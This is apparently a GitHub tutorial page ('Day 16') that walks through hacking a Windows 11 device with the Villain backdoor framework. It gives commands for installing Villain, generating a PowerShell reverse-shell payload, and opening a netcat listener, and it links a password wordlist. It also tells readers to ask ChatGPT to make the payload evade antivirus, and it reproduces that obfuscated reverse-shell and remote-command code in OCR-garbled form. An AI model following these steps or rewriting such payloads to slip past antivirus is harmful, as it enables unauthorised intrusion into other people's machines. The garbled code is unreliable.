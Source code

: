# ♦ Day 16
</br>
</br>

## ◙ ***Note***
 </br>
  There is an update in rockyou.txt file containing a far better number of word combinations 
  </br>
  
  ⇨ [Rockyou.txt](https://github.com/hkphh/rockyou2024.txt)
 </br>
# ♦ Hacking Windows 11 :
   ***• Introducing Villan Framework***
   </br>
      Villain is a Windows & Linux backdoor generator and multi-session handler that allows users to connect with sibling servers (other machines running Villain) and share their backdoor sessions, handy for working as a team. [Villan](https://github.com/keralahacker/Villain/)
   </br>
   ⇨ In this Sessioin we will be learning to how to use Villan framework to get into OR Hack a Windows 11 device 
   </br>
   </br>
### ◙ Step-By-Step Guide 
</br >

### • 1. Installation of Villan Framework :

    git clone https://github.com/t3l3machus/Villain
    cd ./Villain
    pip3 install -r requirements.txt

• Now add the x parameter in the file and exicute it:

    chmod +x villan.py

• Now exicute with python

    python3 villan.py

> For details use "help" command


### • 2. Generate a paylaod : 

 To understand how to generate a paylaod we will use the command 

    help generate

• Generate a paylaod from the example for the wwindows

    generate payload=windows/netcat/powershell_reverse_tcp lhost=eth0 encode

 Now try runing the generated payload in powershell

</br>

***◙ Improving the Payload***
 As we can see that the paylaod has been shot down by the AV so we have to do some changes in tht so it can't be detected by the AV.
 </br>
  </br>
 • For doingb such changes we will be using Our beloved ***"CHAT GPT"*** in such a manner >
  </br>

 ### • 1. Step 1
      >give the payload< analyse this code and modify the code to be more AV proof need this code in ps1 file

</br>

 ### • 2. Step 2
       "Start-Process SPSHOME\powershell.exe -ArgumentList {$client = New-Object System.Net.Sockets.TCPClientC172.29.234.6?,4443);$stream = $client.GetStream();[byte0)$bytes = $stream.Read($bytes, O, $bytes.Length)) -ne O)(;$data = (New-Object -TypeName = (iex $data 2>&1 | Out-String );$sendback2 = Ssendback + 'PS • + (pwd).Path + ';Ssendbyte = -WindowStyle Hidden"

 </br>

  ### • 3. Step 3
          "Start-Process SPSHOME\powershell.exe -ArgumentList {$s="SERVERlP•••$i='*SESSlONlD•••$p='http•JT;Sv=lnvoke-RestMethod -UseBasicParsing -Uri -Headers (Strue){$c=(lnvoke-RestMethod -UseBasicParsing -Uri Sp$s/ -Headers (Sc -ne 'None') {$r=lnvoke-Expression Sc -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$x=lnvoke-RestMethod -Uri -Method POST -Headers -Body -join ' sleep *FREQ'}} -WindowStyle Hidden"

</br>

 ### • 4. Step 4
         "Replace the placeholders like 'SERVERlP' and '*SESSIONlD' with actual endpoint paths and IDs before executing the script. Remove all those above and now I am using netcat to connect with the TCP connection."


#♦ Connect Via Netcat :
</br> 
### • 1. Open a new tab and start the netcat listener in that terminasl.

    nc -lvnp <port>

